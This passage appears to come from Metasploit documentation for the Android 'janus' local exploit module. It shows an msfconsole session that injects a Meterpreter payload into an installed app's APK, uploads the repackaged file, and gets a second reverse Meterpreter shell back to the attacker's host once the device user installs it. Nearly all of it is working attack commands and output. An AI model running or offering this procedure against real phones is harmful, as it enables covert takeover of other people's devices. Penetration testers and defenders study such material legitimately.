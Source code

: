 ```
msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                        Information         Connection
  --  ----  ----                        -----------         ----------
  1         meterpreter dalvik/android  u0_a80 @ localhost  192.168.0.176:4444 -> 192.168.0.107:46059 (192.168.0.107)

msf exploit(multi/handler) > use exploit/android/local/janus
msf exploit(android/local/janus) > set PACKAGE com.phonegap.camerasample
PACKAGE => com.phonegap.camerasample
msf exploit(android/local/janus) > set SESSION 1
SESSION => 1
msf exploit(android/local/janus) > set LHOST 192.168.0.176
LHOST => 192.168.0.176
msf exploit(android/local/janus) > set LPORT 4445
LPORT => 4445
msf exploit(android/local/janus) > run

[*] Downloading APK: /data/app/com.phonegap.camerasample-1/base.apk
[*] Decompiling original APK..
[*] Decompiling payload APK..
[*] Locating hook point..
[*] Adding payload as package com.phonegap.camerasample.syerq
[*] Loading /tmp/d20190824-7164-qydvgj/original/smali/com/phonegap/camerasample/CameraSampleActivity.smali and injecting payload..
[*] Rebuilding apk with meterpreter injection as /tmp/d20190824-7164-qydvgj/output.apk
[*] Uploading APK: /sdcard/app.apk
[*] APK uploaded
msf exploit(android/local/janus) >
```
Please note that the user will need to manually accept the install prompt on the device (and also open the application) before a new session is opened.

```
[*] Sending stage (72609 bytes) to 192.168.0.107
[*] Meterpreter session 2 opened (192.168.0.176:4445 -> 192.168.0.107:49710) at 2018-10-01 17:44:50 +0800

msf exploit(android/local/janus) > sessions 2
[*] Starting interaction with 2...

meterpreter > pwd
/data/user/0/com.phonegap.camerasample/files

```

### Browser (com.ume.browser.northamerica) on ZTE Z798BL Android 6.0.1 with December 2016 Security Patch
